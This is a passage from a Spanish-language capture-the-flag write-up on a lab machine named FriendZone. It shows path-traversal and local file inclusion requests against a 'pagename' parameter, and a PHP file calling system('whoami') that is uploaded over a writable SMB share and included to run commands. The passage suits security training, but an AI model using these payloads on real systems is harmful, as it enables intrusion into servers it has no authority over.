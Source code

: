 Aqui nos aparece una nueva pagina. Nos llama la atencion el parametro pagename y intentamos cosas

```bash
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=timestamp
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=timestam
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=dashboard.php
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=dashboard
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=/../../../../../etc/passwd
https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=/../../../../../etc/passwd%00
```

Aqui hemos constatado que podemos injectar una pagina de la web en esta misma pagina y que no se necessita poner la extension que la pagina añade
`.php` por si sola. Es por esto que no se puede ver el `/etc/passwd` porque añade un `.php` al final.



## Vulnerability Assessment {-}


### Subiendo ficheros por smb {-}

Cuando hemos mirado los registros compartidos a nivel de red con smbmap, hemos constatado que teniamos derechos de lectura
y de escritura al registro Development. Y esta enumeracion nos a monstrado que el registro Files esta bindeada al directorio
`/etc/Files`. Esto no hace pensar que si subimos ficheros al registro `Development`, puede que sea finalmente bindeada al directorio 
`/etc/Development`. 

1. Creamos un fichero php de prueba

    ```php
    <?php
        echo "Esto es una prueba...";
        system("whoami");
    ?>
    ```

1. Con smbclient, subimos el fichero

    ```bash
    put test.php
    ```

1. En el dashboard, intentamos ver si vemos la pagina

    ```bash
    https://administrator1.friendzone.red/dashboard.php?image_id=a&pagename=/../../../../../etc/Development/test
    ```

Esto nos muestra que podemos ejecutar commandos a nivel de systema.## Vuln exploit & Gaining Access {-}

